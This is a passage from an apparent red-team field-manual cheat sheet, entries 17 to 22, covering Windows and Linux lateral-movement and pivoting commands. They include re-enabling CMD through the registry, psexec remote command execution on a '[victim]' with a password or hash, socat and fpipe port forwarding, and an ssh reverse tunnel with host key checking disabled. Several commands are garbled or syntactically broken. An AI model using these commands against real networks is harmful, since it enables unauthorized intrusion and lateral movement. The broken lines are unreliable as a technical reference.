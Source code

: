 http://unix.stackexchange.com/questions/44821/how-do-i-screencap-another-xorg-display
__________
### 17. re-enable CMD
```
reg add HKCU\Software\Policies\microsoft\Windows\System /v DisableCHD /t
```
**- pivoting,Windows,configuration**
#### References:

https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 18. windows psexec : \\127.0.0.1\c$\cmd.exe -p can be pass OR hash
```
psexec /accepteula \\[victim] -u [domain]\[user] -p [password] -c -f \\[victim]\[share\[file]
```
**- pivoting,Windows,remote command shell**
#### References:

https://technet.microsoft.com/en-us/sysinternals/pxexec.aspx
__________
### 19. Route IPV6 through ipv4 for things that don't support it
```
socat TCP-LISTEN:8080,reuseaddr,fork TCP6:[RHOST]:[RPORT] ./[tool] 127.00.0.1:8080
```
**- linux,networking,pivoting**
#### References:

https://www.cyberciti.biz/faq/linux-unix-tcp-port-forwarding/
__________
### 20. forward local traffic htting lport to [rip]:[rport]
```
fpipe.exe -l [lport] -r [rip] [ip]
```
**- networking,pivoting,Windows**
#### References:

https://www.mcafee.com/uk/downloads/free-tools/fpipe.aspx
http://exploit.co.il/hacking/pivoting-into-a-network-using-plink-and-fpipe/
__________
### 21. forward local traffic htting lport to [rip]:[rport]
```
socat TCP4:LISTEN:[lport] TCP4:[rip]:[rport]
```
**- linux,networking,pivoting**
#### References:

https://www.cyberciti.biz/faq/linux-unix-tcp-port-forwarding/
__________
### 22. ssh port forward [victim]:[port] to [ip]:[port], access by localhost:[port], rhost can be 127.0.0.1
```
ssh -o StrictHostKeyChecking=no -t -t -i [private_key] -R [lport]:[rhost]:[rip] [user]@[ip]
```
**- linux,networking,pivoting**
#### References:

